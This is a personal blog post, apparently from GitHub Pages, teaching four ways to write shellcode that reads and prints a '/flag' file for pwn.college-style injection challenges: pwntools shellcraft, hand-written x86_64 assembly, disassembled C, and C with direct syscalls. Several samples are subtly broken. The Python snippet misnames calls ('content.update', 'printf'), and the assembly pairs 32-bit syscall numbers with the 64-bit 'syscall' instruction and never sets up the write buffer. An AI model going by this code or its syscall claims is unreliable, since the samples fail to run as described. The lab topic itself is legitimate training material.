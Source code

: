 ```yaml
---
layout: post
title: How to Write Shellcode for Shellcode Injection and Simplify Assembly Code Development
subtitle: Learn through First principles c
gh-repo: muchiking.github.io/
# gh-badge: [star, fork, follow]
tags: [cybersecurity.binary,pwn]
comments: true
---
```


# How to Write Shellcode for Shellcode Injection and Simplify Assembly Code Development

Shellcode injection is a powerful technique that allows the injection and execution of custom code within a target process. In this blog post, we'll explore different approaches to writing shellcode and discuss methods to streamline the development of assembly code.


# way one

## The Power of Pwntools: Crafting Shellcode with Python

One of the easiest ways to write shellcode is by using the Python library called pwntools. Pwntools provides a rich set of features to simplify exploit development, including a module called shellcraft, which helps in crafting shellcode for various operations.

Here's an example of using pwntools and shellcraft to generate shellcode that reads and prints the contents of the "/flag" file:

```
from pwn import *
content.update(arch="amd64")
pay=(asm(shellcraft.cat('/flag')))
printf(pay=(asm(shellcraft.cat('/flag'))))
```




By leveraging pwntools and shellcraft, you can easily generate shellcode for different operations, such as file manipulation, network communication, or privilege escalation.


hoold up that's not the end some of us do not want peace.
all in all  its best to have multiple ways to do things since you may want a functionality that is not implemented by pwn tools 

# way two 

## Hardcoding Assembly: Fine-grained Control and Understanding

### directly hard code it using assembly like the chad you are 

For those seeking more control and a deeper understanding of the inner workings of shellcode, hardcoding assembly instructions can be a viable approach. Let's take a closer look at the assembly code for opening, reading, and writing a file using the x86_64 architecture:

```
global _start
section .text

_start:
    ; Open the file
    mov eax, 0x5   ; sys_open system call number
    mov edi, filename
    mov esi, 0     ; flags (O_RDONLY)
    xor edx, edx   ; mode (permissions)
    syscall

    ; Read from the file
    mov ebx, eax   ; file descriptor
    mov eax, 0x3   ; sys_read system call number
    mov edi, ebx   ; file descriptor
    lea esi, [rsp] ; buffer address
    mov edx, 0x100 ; buffer size
    syscall

    ; Write to STDOUT
    mov eax, 0x4   ; sys_write system call number
    mov edi, 1     ; STDOUT file descriptor
    mov edx, eax   ; bytes to write
    syscall

    ; Exit the program
    mov eax, 0x1   ; sys_exit system call number
    xor ebx, ebx   ; exit status
    syscall

section .data
    filename db "/flag",0

```

By directly working with assembly code, you have fine-grained control over the instructions and can better understand the interactions between the operating system and your code.

save it as a dot .s file eg thanksforreadintheblog.s
then compile it with the -nostdlib flag
```
gcc -nostdlib -o thanksforreadintheblog thanksforreadintheblog.s
```

though assembly is for chads it lacks documentation

the best documentation out there are x86_64 syscals tables
![[Pasted image 20230713211214.png](/assets/img/20230713211214.png)

as you can see they are not that clear like the flags to open the files i found it from linux kernel files written by the world wide wwe heavy weight champion  Linus Torvald  

and that is why we have to be smart
the smartest way to move is by the use of c and yes you do not need to learn programming to be a hacker.

#  part way 3 and way 4 

## Using C to Implement binary: Streamlining the Process

While writing shellcode in assembly can be powerful, it can also be time-consuming. A more efficient approach is to leverage the capabilities of C programming to implement shellcode using system calls. The POSIX standard provides a common interface for system calls across different Unix-like operating systems.

we will be using the posix standard since it is a standard that is followed by all who want to interact with the kernel

the defination by onchan chat gpt is that posix is 
```
POSIX stands for "Portable Operating System Interface." It is a set of standards that define the application programming interface (API), shell interface, and utility interfaces for software compatibility between different Unix-like operating systems. POSIX-compliant systems provide a common framework for developing and executing software, allowing programs written for one POSIX-compliant operating system to run on another without significant modifications.

```

this is how you implement it

![[Pasted image 20230713213655.png](/assets/img/20230713213655.png)

after compiling you can get the assembly code by running objdump on the compiled binary 

![[Pasted image 20230713214331.png](/assets/img/20230713214331.png)





![[Pasted image 20230713221523.png](/assets/img/20230713221523.png)

as you can see this registers match appart from rax 

from the compiled binary you just replace call with syscall and eax with the call number  by doing this you save yourself a lot of time reading man pages 

The fourth

the easiest way to do this is by using a direct syscall in c eg

```
#include <sys/fcntl.h>
#include <sys/unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/syscall.h>
// #include <sys/syscall.h>

#define BUFSIZE 4096


void main(){
char buffer[BUFSIZE];
ssize_t bytesRead;
ssize_t bytesWritten;
int fd;
fd=syscall(SYS_open,"/flag",O_RDONLY);
bytesRead = syscall(SYS_read, fd, buffer, BUFSIZE);
bytesWritten = syscall(SYS_write, STDOUT_FILENO, buffer, bytesRead);
syscall(SYS_close, fd);
}
```

the assembly code generated looks like this
![[Pasted image 20230713220301.png](/assets/img/20230713220301.png)


this is syntax used in to pass values that are soon to be executed by a function in assembly.

```
rax: caries return values also carries syscal values usaly the 0 argument
rdi:    First Argument
rsi:    Second Argument
rdx:    Third Argument
rcx:    Fourth Argument
r8:     Fifth Argument
r9:     Sixth Argument
```


since in the c files the syscall function takes more operators one extra argument is added that pushes things to the next rargument register so to reverse this you just mov arguments one regsiter back eg 

what is in rdi goes to rax, what is in rsi to rdi  then on and on.
the good thing about this method is that you do not need to check the syscall table thus saves you more time. 


Thank you for taking the time to read through this blog post. I would like to express my gratitude to the pwn.collage for their valuable training and challenging experiences, which have contributed to my understanding of shellcode injection.

I hope you found this blog post informative and helpful. If you have any further questions or need assistance, please feel free to reach out. Have a great day ahead!
